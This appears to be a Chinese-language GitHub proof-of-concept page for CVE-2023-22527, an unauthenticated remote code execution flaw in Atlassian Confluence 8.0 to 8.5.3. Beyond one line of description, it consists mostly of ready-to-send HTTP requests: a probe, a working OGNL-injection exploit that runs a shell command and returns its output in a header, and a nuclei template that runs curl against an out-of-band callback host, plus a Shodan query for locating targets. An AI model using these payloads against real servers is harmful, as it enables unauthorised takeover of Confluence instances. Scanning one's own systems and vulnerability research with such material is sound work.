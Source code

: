 ## Atlassian Confluence 远程代码执行漏洞(CVE-2023-22527)

在Confluence 8.0到8.5.3版本之间，存在一处由于任意velocity模板被调用导致的OGNL表达式注入漏洞，未授权攻击者利用该漏洞可以直接攻击Confluence服务器并执行任意命令。

## poc
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: /
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

label=test\u0027%2b#{3*33}%2b\u0027
```

## exp
```
POST /template/aui/text-inline.vm HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```
![image](https://github.com/wy876/POC/assets/139549762/60ed0618-c378-49c4-bbdc-c7c8067cb461)

## nuclei
```
id: CVE-2023-22527

info:
  name: Atlassian Confluence - Remote Code Execution
  author: iamnooob,rootxharsh,pdresearch
  severity: critical
  description: |
    A template injection vulnerability on older versions of Confluence Data Center and Server allows an unauthenticated attacker to achieve RCE on an affected instance. Customers using an affected version must take immediate action.
    Most recent supported versions of Confluence Data Center and Server are not affected by this vulnerability as it was ultimately mitigated during regular version updates. However, Atlassian recommends that customers take care to install the latest version to protect their instances from non-critical vulnerabilities outlined in Atlassian’s January Security Bulletin.
  reference:
    - https://confluence.atlassian.com/pages/viewpage.action?pageId=1333335615
    - https://jira.atlassian.com/browse/CONFSERVER-93833
    - https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
    cvss-score: 10
    cve-id: CVE-2023-22527
    epss-score: 0.00044
    epss-percentile: 0.08115
    cpe: cpe:2.3:a:atlassian:confluence_data_center:*:*:*:*:*:*:*:*
  metadata:
    max-request: 1
    vendor: atlassian
    product: confluence_data_center
    shodan-query: http.component:"Atlassian Confluence"
  tags: cve,cve2023,confluence,rce,ssti

http:
  - raw:
      - |+
        POST /template/aui/text-inline.vm HTTP/1.1
        Host: {{Hostname}}
        Accept-Encoding: gzip, deflate, br
        Content-Type: application/x-www-form-urlencoded

        label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=(new freemarker.template.utility.Execute()).exec({"curl {{interactsh-url}}"})

    matchers-condition: and
    matchers:
      - type: word
        words:
          - 'Empty{name='

      - type: word
        part: interactsh_protocol
        words:
          - dns
```
## 漏洞来源
- https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html
- https://blog.projectdiscovery.io/atlassian-confluence-ssti-remote-code-execution/
- https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22527/README.zh-cn.md
